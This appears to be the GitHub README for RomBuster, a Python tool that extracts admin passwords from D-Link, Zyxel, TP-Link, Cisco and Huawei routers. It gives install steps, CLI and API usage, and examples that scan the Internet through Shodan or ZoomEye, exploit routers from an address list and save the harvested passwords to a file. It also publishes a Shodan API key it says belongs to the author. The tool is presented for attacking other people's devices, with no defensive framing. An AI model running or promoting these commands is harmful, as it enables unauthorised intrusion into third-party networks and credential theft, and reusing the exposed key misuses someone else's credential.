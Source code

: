 # RomBuster

<p>
    <a href="https://entysec.com">
        <img src="https://img.shields.io/badge/developer-EntySec-blue.svg">
    </a>
    <a href="https://github.com/EntySec/RomBuster">
        <img src="https://img.shields.io/badge/language-Python-blue.svg">
    </a>
    <a href="https://github.com/EntySec/RomBuster/forks">
        <img src="https://img.shields.io/github/forks/EntySec/RomBuster?color=green">
    </a>
    <a href="https://github.com/EntySec/RomBuster/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/RomBuster?color=yellow">
    </a>
</p>

RomBuster is a router exploitation tool that allows to disclosure network router admin password.

## Features

* Exploits vulnerabilities in most popular routers such as `D-Link`, `Zyxel`, `TP-Link`, `Cisco` and `Huawei`.
* Optimized to exploit multiple routers at one time from list.
* Simple CLI and API usage.

## Installation

```shell
pip3 install git+https://github.com/EntySec/RomBuster
```

## Basic usage

To use RomBuster just type `rombuster` in your terminal.

```
usage: rombuster [-h] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN]
                 [--zoomeye ZOOMEYE] [-p PAGES]

RomBuster is a router exploitation tool that allows to disclosure network
router admin password.

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

### Examples

**Exploiting single router**

Let's hack my router just for fun.

```shell
rombuster -a 192.168.99.1
```

**Exploiting routers from Internet**

Let's try to use Shodan search engine to exploit routers over Internet.

```shell
rombuster --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD
```

**NOTE:** Given Shodan API key (`PSKINdQe1GyxGgecYz2191H2JoS9qvgD`) is my PRO API key, you can use this key or your own, be free to use all our resources for free :)

**Exploiting routers from input file**

Let's try to use opened database of routers.

```shell
rombuster -i routers.txt -o passwords.txt
```

**NOTE:** It will exploit all routers in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## API usage

RomBuster also has their own Python API that can be invoked by importing RomBuster to your code.

```python
from rombuster import RomBuster
```

### Basic functions

There are all RomBuster basic functions that can be used to exploit specified router.

* `exploit(address)` - Exploit single router by given address.

### Examples

**Exploiting single router**

```python
from rombuster import RomBuster

rombuster = RomBuster()
creds = rombuster.exploit('192.168.99.1')

print(creds)
```
